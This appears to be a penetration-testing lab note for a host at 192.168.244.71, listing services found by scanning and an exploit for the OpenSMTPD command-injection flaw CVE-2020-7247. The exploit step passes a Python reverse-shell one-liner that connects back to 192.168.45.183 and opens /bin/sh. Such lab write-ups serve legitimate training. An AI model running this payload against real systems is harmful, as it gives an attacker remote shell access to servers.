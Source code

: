# Box: 192.168.244.71

---

## System Info
- **OS/Tech:** Ubuntu Linux, FlaskBB (Python), Nginx  
- **Framework:** FlaskBB Forum

---

## Credentials
- **User:** `bratarina`  
- **Password:** _(none yet)_

---

##  Service Enumeration

| Port   | State | Service  | Version                                                                    |
| ------ | ----- | -------- | -------------------------------------------------------------------------- |
| **22** | open  | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (protocol 2.0)                              |
| **25** | open  | smtp     | OpenSMTPD                                                                 |
| **53** | closed| domain   | —                                                                          |
| **80** | open  | http     | nginx 1.14.0 (Ubuntu)                                                      |
| **445**| open  | netbios-ssn | Samba smbd 3.x–4.x (workgroup: COFFEECORP)                               |

---

##  Exploits & Insights

### 1. ESMTP (port 25) → **CVE 2020‑7247**
- **Vuln:** OpenSMTPD command‑injection via mail filter  
- **Exploit**:
  ```bash
  python3 47984.py 192.168.244.71 25 \
    'python -c "import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect((\"192.168.45.183\",125));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call([\"/bin/sh\",\"-i\"]);"'
 ```